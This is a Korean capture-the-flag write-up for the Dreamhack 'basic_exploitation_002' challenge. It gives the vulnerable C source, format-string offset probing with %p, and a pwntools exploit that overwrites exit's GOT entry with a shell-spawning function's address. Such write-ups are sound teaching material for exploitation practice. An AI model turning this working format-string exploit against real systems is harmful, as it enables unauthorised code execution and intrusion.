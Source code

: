 # [Dreamhack] basic_exploitation_002 풀이

---

# C 코드

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    read(0, buf, 0x80);
    printf(buf);

    exit(0);
}
```

일단 main함수의 read부분에서 0x80만큼 받게 지정해둬서 오버플로우는 발생시키지 못 할꺼같다.

하지만 그 밑에 printf부분에서 FSB취약점이 발생하는걸 볼 수 있다. exit()의 got주소를 get_shell의 주소로 바꿔주면 될꺼같다.

---

# 파일 분석

우리가 디버깅을 하면서 알아내야 하는 정보를 정리해보자

- 입력한 값을 받는 오프셋
- exit함수의 got주소
- get_shell의 주소

디버깅은 peda를 사용했습니다.

$ exit의 got주소와 get_shell의 주소는 pwntools를 사용해서 구하겠다. $

그럼 이제 알아야하는건 오프셋만 남았다.

실행시키고 aaaa.%p.%p.%p.%p.%p.%p.%p 를 입력해서 확인해보자

```bash
❯ ./basic_exploitation_002 
aaaa.%p.%p.%p.%p.%p.%p.%p
aaaa.0x61616161.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0xf7f80a70
```

이제 모든 정보를 얻었으니 익스플로잇 코드를 짜보자.

---

# Exploit

```python
from pwn import *

p = process("./basic_exploitation_002")

e = ELF('./basic_exploitation_002')

shell_addr=e.symbols['get_shell']
exit_got=e.got['exit']

payload=fmtstr_payload(1,{exit_got:shell_addr})

p.sendline(payload)
p.interactive()
```

이번 코드를 짤때는 pwntools의 fmtstr_payload 함수를 사용해보았다. 이 함수는 FSB의 페이로드를 짜주  는 함수이다. 구조를 간단하게 설명해보면 

fmtstr_payload(”오프셋”,{”덮힐주소”: “덮을주소”})

이런식으로 사용하면 된다.

한번 실행시켜보자.

![Screenshot from 2022-10-18 15-08-00.png](/IMG/basic_ex2.png)

쉘이 따진 모습!